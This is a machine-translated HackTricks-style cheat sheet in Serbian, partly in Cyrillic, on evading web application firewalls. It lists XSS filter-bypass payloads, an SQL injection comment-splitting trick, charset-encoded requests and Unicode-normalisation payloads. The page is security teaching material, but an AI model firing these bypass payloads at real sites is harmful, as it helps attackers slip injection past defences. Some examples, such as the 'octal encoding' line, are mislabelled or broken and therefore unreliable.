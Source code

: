 # WAF Bypass

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Bypassovanje Regex-a

Različite tehnike se mogu koristiti za zaobilaženje regex filtera na firewall-ima. Primeri uključuju smenjivanje velikih i malih slova, dodavanje preloma linije i enkodiranje payload-a. Resursi za različite načine zaobilaženja se mogu pronaći na [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) i [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html). Primeri ispod su preuzeti iz [ovog članka](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).

```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```

## Kodiranje karaktera

Kodiranje karaktera je proces pretvaranja znakova u odgovarajuće binarne reprezentacije. U kontekstu zaobilaženja WAF-a, možete iskoristiti različite kodne skupove kako biste zaobišli detekciju WAF-a.

### URL kodiranje

URL kodiranje se koristi za pretvaranje specijalnih znakova u njihove ekvivalentne heksadecimalne vrednosti. Na taj način, znakovi koji bi mogli biti blokirani ili filtrirani od strane WAF-a mogu proći neprimećeno.

Primjer:

Originalni URL: `http://www.example.com/page?param=value`

URL kodiranje: `http%3A%2F%2Fwww.example.com%2Fpage%3Fparam%3Dvalue`

### HTML kodiranje

HTML kodiranje se koristi za pretvaranje specijalnih znakova u njihove ekvivalentne HTML entitete. Ovo može biti korisno za zaobilaženje WAF-a koji filtrira HTML oznake ili specifične znakove.

Primjer:

Originalni tekst: `<script>alert('XSS')</script>`

HTML kodiranje: `&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;`

### Unicode kodiranje

Unicode kodiranje se koristi za pretvaranje znakova u njihove ekvivalentne Unicode vrednosti. Ovo može biti korisno za zaobilaženje WAF-a koji filtrira specifične znakove ili kodne skupove.

Primjer:

Originalni tekst: `SELECT * FROM users WHERE username = 'admin'`

Unicode kodiranje: `SELECT * FROM users WHERE username = '\u0061\u0064\u006d\u0069\u006e'`

### Punycode kodiranje

Punycode kodiranje se koristi za pretvaranje domena koji sadrže Unicode znakove u ASCII reprezentaciju. Ovo može biti korisno za zaobilaženje WAF-a koji blokira ili filtrira domene sa specifičnim znakovima.

Primjer:

Originalni domen: `http://www.éxample.com`

Punycode kodiranje: `http://www.xn--xample-9uf.com`

```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```

## Obfuskacija

Obfuskacija je tehnika koja se koristi za prikrivanje ili zamagljivanje stvarnog koda ili podataka kako bi se izbjeglo otkrivanje ili detekcija. Ova tehnika se često koristi za zaobilaženje Web Application Firewall (WAF) sistema.

### Tehnike obfuskacije

1. **Minifikacija**: Minifikacija je proces smanjivanja veličine koda uklanjanjem nepotrebnih znakova, razmaka i komentara. Ovo čini kod manje čitljivim i teže razumljivim za ljude, ali ne utječe na funkcionalnost koda.
2. **Enkripcija**: Enkripcija se koristi za pretvaranje čitljivog koda u nečitljivi oblik pomoću algoritama enkripcije. Ovaj oblik koda se zatim dekriptira na ciljnom serveru prije izvršavanja.
3. **Polimorfizam**: Polimorfizam je tehnika koja mijenja oblik koda tako da svaka instanca izgleda drugačije, ali ima istu funkcionalnost. Ovo otežava detekciju i analizu koda.
4. **Steganografija**: Steganografija je tehnika skrivanja podataka unutar drugih podataka, kao što su slike ili zvukovi. U kontekstu obfuskacije, ova tehnika se koristi za skrivanje zlonamjernog koda unutar legitimnih datoteka.

### Bypassing WAF putem obfuskacije

Korištenje obfuskacije može biti korisno za zaobilaženje WAF sistema. Evo nekoliko tehnika koje se mogu koristiti:

1. **Obfuskacija URL-a**: Promjena URL-a tako da se izbjegne detekcija WAF-a. Ovo se može postići dodavanjem slučajnih znakova, enkodiranjem URL-a ili korištenjem kratkih URL-ova.
2. **Obfuskacija parametara**: Enkodiranje ili enkripcija parametara kako bi se izbjeglo otkrivanje zlonamjernih aktivnosti.
3. **Obfuskacija HTTP zaglavlja**: Promjena ili dodavanje dodatnih zaglavlja kako bi se izbjegla detekcija WAF-a.
4. **Obfuskacija HTTP tijela**: Enkodiranje ili enkripcija HTTP tijela kako bi se izbjeglo otkrivanje zlonamjernog sadržaja.

Važno je napomenuti da obfuskacija nije uvijek 100% efikasna i da se WAF sistemi stalno razvijaju kako bi prepoznali nove tehnike obfuskacije. Stoga je važno redovito ažurirati svoje tehnike i pratiti najnovije razvoje u oblasti WAF-a.

```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```

## Unicode kompatibilnost

Zavisno od implementacije normalizacije Unicode-a (više informacija [ovde](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)), karakteri koji dele Unicode kompatibilnost mogu zaobići WAF i izvršiti se kao namereni payload. Kompatibilni karakteri se mogu pronaći [ovde](https://www.compart.com/en/unicode)

### Primer

```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```

## Превазилажење ограничења величине

Уобичајено је у WAF-овим базираним на облаку да ако је полезност већа од X величине, захтев неће бити проверен од стране WAF-а. Можете једноставно користити то да их превазиђете.

### Ротација IP адреса

* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin)

<details>

<summary><strong>Научите хаковање AWS-а од нуле до хероја са</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Други начини да подржите HackTricks:

* Ако желите да видите своју **компанију рекламирану на HackTricks** или **преузмете HackTricks у PDF формату** Проверите [**ПРЕТПЛАТНЕ ПЛАНОВЕ**](https://github.com/sponsors/carlospolop)!
* Набавите [**званични PEASS & HackTricks сувенир**](https://peass.creator-spring.com)
* Откријте [**The PEASS Family**](https://opensea.io/collection/the-peass-family), нашу колекцију ексклузивних [**NFT-ова**](https://opensea.io/collection/the-peass-family)
* **Придружите се** 💬 [**Discord групи**](https://discord.gg/hRep4RUj7f) или [**телеграм групи**](https://t.me/peass) или **пратите** нас на **Twitter-у** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Поделите своје хакерске трикове слањем PR-ова на** [**HackTricks**](https://github.com/carlospolop/hacktricks) и [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторијуме.

</details>
